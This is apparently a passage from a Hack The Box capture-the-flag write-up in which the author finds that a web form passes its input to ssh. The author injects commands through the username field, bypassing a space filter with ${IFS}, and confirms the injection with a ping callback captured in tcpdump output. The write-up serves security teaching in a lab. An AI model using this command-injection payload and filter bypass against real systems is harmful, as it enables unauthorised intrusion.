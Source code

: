 We'll try `localhost` and `kanderson`:

![](_/htb-cozyhosting-20231002-4.png)

The error string `Host key verification failed` looks like it came straight from `ssh`, so this form looks like it's passing user input straight to `ssh`.

After some experimenting, I learn that the form is doing _some_ sanitizing, e.g. it doesn't allow spaces, but I can work around that using `${IFS}`.

From the `bash(1)` manual:

```text
IFS    The Internal Field Separator that is used for word splitting after expansion and to split lines into words with the read builtin command.  The default value is ‘‘<space><tab><newline>’’.
```

So, I can pass a username value of `-V` (e.g. `--version`), and then whatever I want. Because I can't yet see `stdout` from my commands, I'll test by trying to ping back to my machine using the following POST parameters:

```text
host=localhost&username=-V${IFS};ping${IFS}10.10.14.20%0a#
```

Meanwhile on my machine, I see the `ping` traffic:

```console
$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:46:15.372366 IP cozyhosting.htb > 10.10.14.20: ICMP echo request, id 2, seq 1, length 64
15:46:15.372459 IP 10.10.14.20 > cozyhosting.htb: ICMP echo reply, id 2, seq 1, length 64
15:46:16.370807 IP cozyhosting.htb > 10.10.14.20: ICMP echo request, id 2, seq 2, length 64
15:46:16.370820 IP 10.10.14.20 > cozyhosting.htb: ICMP echo reply, id 2, seq 2, length 64
15:46:17.380762 IP cozyhosting.htb > 10.10.14.20: ICMP echo request, id 2, seq 3, length 64
15:46:17.380777 IP 10.10.14.20 > cozyhosting.htb: ICMP echo reply, id 2, seq 3, length 64
^C
```

